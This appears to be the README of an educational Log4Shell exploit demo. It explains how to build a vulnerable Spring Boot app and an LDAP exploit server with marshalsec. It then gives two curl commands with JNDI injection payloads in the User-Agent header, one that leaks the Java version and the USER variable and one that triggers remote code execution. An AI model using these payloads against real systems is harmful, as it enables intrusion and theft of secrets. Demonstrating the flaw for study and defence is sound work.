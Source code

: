 ## Log4Shell Exploit Demo

🛑 _Code in this repo should be used for educational purposes only!_ 🛑  
🛑 _Do not use these attacks against services which are not under your control!_ 🛑

_Please see [references](#References) for initiating repos with Python samples and further information._

## Purpose

This repo mixes code from repos mentioned in the [references](#References) section to facilitate single language and tech stack (Java/Spring) demo of the exploit. To replay the demo, only Java and Maven have to be installed, though an IDE is recommended.

## Prerequisites

* Java 8+ (for Java8u191+ and Java 11.0+ see _Start_ Todos below)
* Maven 3+
* (Opt.) IntelliJ or Eclipse

## Setup

### Install LDAP Ref Lib locally

* Clone https://github.com/mbechler/marshalsec
* Uncomment the `<artifactId>maven-assembly-plugin</artifactId>` in `pom.xml`
* Install library to local Maven Repo with `mvn clean install`

## Run Demo

### Start Web Application with vulnerable Log4j

* In Folder *vulnerable-spring-boot-web-app* 
* Build with `mvn clean install`
* Run `Log4shellApplication`

_Note: With Java 11 or Java8u191+ (for other Java SDKs see [here](https://www.geekyhacker.com/2021/12/11/three-ways-to-patch-log4shell-cve-2021-44228-vulnerability/)), in Run Configuration, Add VM option `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`_

### Start Exploit & LDAP Servers

* In folder *l4sexploit*
* Build with `mvn clean install`
* Run `L4sexploitApplication`

### Start Socketlistener

* In folder *l4sexploit*
* Run `ExploitServer`

### Call Exploit

* **Secret Information Exposure**: `curl -A '${jndi:ldap://localhost:1389/javaversion:${java:version}/user:${env:USER}}' http://localhost:9090/`
* **Remote Code Execution (Command & Control)**: `curl -A '${jndi:ldap://localhost:1389/exec}' http://localhost:9090/`

### References

* Log4Shell-POC: https://github.com/kozmer/log4j-shell-poc
* Web Appication: https://github.com/korteke/log4shell-demo
* LDAP Serialization Hack: https://github.com/mbechler/marshalsec

### To use locally generated marshalsec Maven Artifact

```xml
<dependency>
  <groupId>org.eenterphace.mbechler</groupId>
  <artifactId>marshalsec</artifactId>
  <version>0.0.3-SNAPSHOT</version>
</dependency>
```

### It does not work

* Did you add `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true` for newer Java SDKs?
* Did you install the *marshalsec* JAR in your local Maven repo?
* Did you remove/uncomment the assembly Maven plugin when building *marshalsec* JAR?
